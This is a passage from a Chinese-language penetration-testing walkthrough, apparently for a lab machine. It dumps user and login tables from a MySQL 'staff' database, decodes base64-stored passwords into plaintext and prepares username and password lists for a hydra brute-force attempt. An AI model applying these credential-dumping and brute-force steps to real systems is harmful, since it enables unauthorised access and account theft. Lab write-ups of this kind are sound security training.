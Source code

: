 staff数据库可能会藏有很多用户信息，并且存在logiin和user表，查看表信息；

```shell
MySQL [staff]> select * from user;
+------+---------------+--------+---------------------------+
| id   | department_id | name   | role                      |
+------+---------------+--------+---------------------------+
|    1 |             1 | Smith  | Cyber Security Specialist |
|    2 |             2 | Lucas  | Computer Engineer         |
|    3 |             1 | Travis | Intelligence Specialist   |
|    4 |             1 | Dexter | Cyber Security Analyst    |
|    5 |             2 | Meyer  | Genetic Engineer          |
+------+---------------+--------+---------------------------+
5 rows in set (0.001 sec)

MySQL [staff]> select * from login;
+------+---------+--------------------------+
| id   | user_id | password                 |
+------+---------+--------------------------+
|    1 |       2 | c3VSSkFkR3dMcDhkeTNyRg== |
|    2 |       4 | N1p3VjRxdGc0MmNtVVhHWA== |
|    3 |       1 | WDdNUWtQM1cyOWZld0hkQw== |
|    4 |       3 | REpjZVZ5OThXMjhZN3dMZw== |
|    5 |       5 | Y3FObkJXQ0J5UzJEdUpTeQ== |
+------+---------+--------------------------+
5 rows in set (0.001 sec)
```

在user表中存在用户名，在login表中存在密码。

## 3. Get more user info

上面可以获取数据库中的用户名和密码，我们可以尝试用hydra去爆破密码。将用户名和密码分别保存到user.txt和password.txt文件中：

```shell
┌──(v4ler1an㉿kali)-[~/Documents/tmp]
└─$ ls
password.txt  user.txt

┌──(v4ler1an㉿kali)-[~/Documents/tmp]
└─$ cat user.txt
smith
lucas
travis
dexter
meyer

┌──(v4ler1an㉿kali)-[~/Documents/tmp]
└─$ cat password.txt
suRJAdGwLp8dy3rF
7ZwV4qtg42cmUXGX
X7MQkP3W29fewHdC
DJceVy98W28Y7wLg
cqNnBWCByS2DuJSy
```
